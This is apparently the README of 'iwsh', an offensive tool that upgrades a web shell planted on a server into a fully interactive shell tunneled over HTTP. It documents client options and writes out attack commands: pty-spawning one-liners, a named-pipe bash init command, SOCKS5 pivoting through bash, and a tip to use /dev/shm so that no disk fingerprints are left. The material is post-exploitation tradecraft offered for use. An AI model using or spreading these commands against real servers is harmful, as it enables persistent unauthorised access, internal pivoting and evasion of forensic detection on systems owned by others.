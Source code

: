 # iwsh (INTERACTIVE WEB SHELL)


##### *The goal of the project is to create a fully interactive shell based on a web server without the need for any additional network connections.*


I was inspired by a situation where I couldn't create any new connections except for web connections over the HTTP protocol.
After spending several days i didn't find works solution. First problem is was create established process, so project create independent process of http requests on server. 

This project communicate over named pipes that create in file system. Interactive shell using two pipes. First pipe for **stdin** default `/tmp/i` that web server write data to from user. Second pipe use for **stdout** and **stderr** defualt `/tmp/o` that web server read data from shell and return to user via Chunked Transfer Encoding that available in `HTTP/1.1`. Streaming data transfer from **stdout** and **stderr** helps reduce the number of requests. I recommend use direcotry `/dev/shm` instead of `/tmp` or other directory that do not leave any fingerprints on disk. `--stream` helps reduce the number of requests to just two. All data will be sent over a TCP connection. Currently only available for Java Servlet. 

The project consists of two files: 1) client is written in bash by use **curl** for communication with web server. 2) page for web server for communicate with client and server-side shell.

**PHP** has some limitation for request chunked, so not easily create two-way streaming for PHP server. I believe that can be created by other client or even better use one page on server with javascript for create full interactive webshell in browser. I don't know very well JavaScript and all of web stack that spend time for create some of this. So I hope someone will be interested in continuing to help develop the project.

---

###### Available options in client:
1. Run command in not interactive shell (by default) 
	Example: `./client --url http://localhost/mypage.php` 
2. Run command in interactive shell without tty 
	Example: `./client --url http://localhost/mypage.php -i`
3. Run command in interactive shell with tty. For this option client has several predefined command for spawning pseudo tty: `--stty-python`, `--stty-expect`, `--stty-script`. If you want change path to binary file just add path after flag, for example change path to python: `--stty-python /usr/bin/python3.7` You can use own command for spawning tty. You must provide the command as one argument, so please don't forget `\"` use: `--stty-custom "/custom/path/python2.7 -c \"import pty; pty.spawn('/bin/zsh')\""`
    Example: `./client --url http://localhost/mypage.php -i --stty-raw --stty-python --alias`

   
###### Stty options:
- By default client running in normal mode and read command line by line. In this mode client can't read special keys some of `ctrl+c`, `ctrl+d`, `ctrl+r`, `ctrl+l` and *etc*.
- When you want change **stty option** you don't need push `ctrl+z` after run command: `stty raw -echo; fg` Instead you must use client commands, because client use two different approach for reading input in different modes.
- If you want to run client in **raw mode** you must use: `--stty-raw` or if client running in **normal mode** you can use command to switch from **normal mode** to **raw mode** use: `%:stty_raw`
- When client running in **raw mode** you can switch to **normal mode** use the key combination: `ctrl+alt+s`. To exit the program in **raw mode**, use the key combination `ctrl+alt+q`.


###### Help menu:

- `-h`, `--help`: Display help menu
- `-u`, `--url`: The URL to the file: `--url http://localhost:8080/webshell.php`
- `-curl`, `--curl`: Script communicate with shell by curl. You can add arguments to curl, usage: `--curl '-X POST' -A 'My User-Agent 2.0'`
- `-i`, `--interactive`: Switch to interactive shell.
- `--stty-raw`: Switch stty to raw mode. Switch to normal mode: `ctrl+alt+s`. While normal mode run switch to raw mode write command: `%:stty_raw`
- `--stty-python`: Send command to run python tty mode: `python -c "import pty; pty.spawn('$shell')"`
- `--stty-expect`: Send interactive command to run expect tty mode: 0)`expect` 1)`spawn $shell` 2)`interact`
- `--stty-script`: Send command to run script tty mode: `script -qc /bin/bash /dev/null`
- `--stty-custom`: Send command to run custom tty mode: `--stty-custom "/custom/path/python2.7 -c \"import pty; pty.spawn('/bin/zsh')\""`
- `--alias`: Send command for setup alias and export TERM: `export TERM=xterm-256color; alias ls='ls --color'; alias ll='ls -lsaht --color'`
- `--alias-custom`: Send command to setup custom alias and other command: `--alias-custom "export TERM=screen-256color; alias ls='ls --color'; alias ll='ls -lsaht --color'"`
- `--shell`: Change from default `bash` to any shell for spawning interactive shell and stty: `--shell /usr/sbin/sh`
- `-ish`, `--init-shell`: Change default command for spawning interactive shell: `--init-shell "rm -f /tmp/i /tmp/o; mkfifo /tmp/i /tmp/o; bash -c 'exec 5<>/tmp/i; cat <&5| bash  2>/tmp/o >/tmp/o'"`
- `-fi`, `--fi`: Interactive shell works on named pipes, so change name of stdin pipe: `--fi /dev/shm/some_input_pipe`
- `-fo`, `--fo`: Interactive shell works on named pipes, so change name of stdout, stderr pipe: `--fo /dev/shm/some_output_pipe`
- `-d`, `--default`: Script by default works with no interactive webshell. So flags set default interacte option: `--interactive`, `--stty-raw`, `--stty-python`, `--alias`. If you want change some of option you need provide next option after default options. `-d --stty-script --shell /bin/bash`
- `--attach`: Join a detached running shell process. To join the right shell, you need to use the same pipes that the shell process uses: `--attach --fi /dev/shm/i --fo /dev/shm/o`
- `--stream`: Create request stream. Available for Java Servlet, not working with php: `--stream`
- `--socks5-bash`: Create socks5 server. Connection to destination host via bash. You can set up special path to bash: `--socks5-bash /bin/bash`
- `--socks5-path`: Set up path where will save named pipes for each one connection. Default `/dev/shm/`: `--socks5-path /tmp`
- `--socks5-port`: Set up port for socks5 server by default `1080`: `--socks5-port 9050`

To exit in normal mode stty usage: `ctrl+c` or write: `%:exit`. To exit in raw mode stty usage: `ctrl+alt+q`

If you want **create several instance** of client with interactive shells you need use **different pipes** for everyone instance by use: `--fi` and `--fo`
Don't forget that sever-side process will running even client is close. So if you don't want leaving running process on server-side and leaving any files, You have to manually kill process and remove files. 

---

**Acknowledgments:**
A heartfelt thank you! Your support has been invaluable.

**Special Thanks To:**
1. [@justOleh](https://github.com/justOleh)

---

If you'd like to show your appreciation, you can buy me a cup of coffee:

**Bitcoin Wallet:**
[bc1qtnz9s7l35aaappzrdsjdjxpze04ld0x5umk7yh](bitcoin:bc1qtnz9s7l35aaappzrdsjdjxpze04ld0x5umk7yh?message=Buy%20me%20a%20cup%20of%20coffe)

---

For any inquiries or just to say hello, my contact information is below. Feel free to reach out:

**Contact:**
- **Email:** [numquam_scire@proton.me](mailto:numquam_scire@proton.me)
- **XMPP Protocol:** [death_bee@xmpp.is](xmpp:death_bee@xmpp.is)


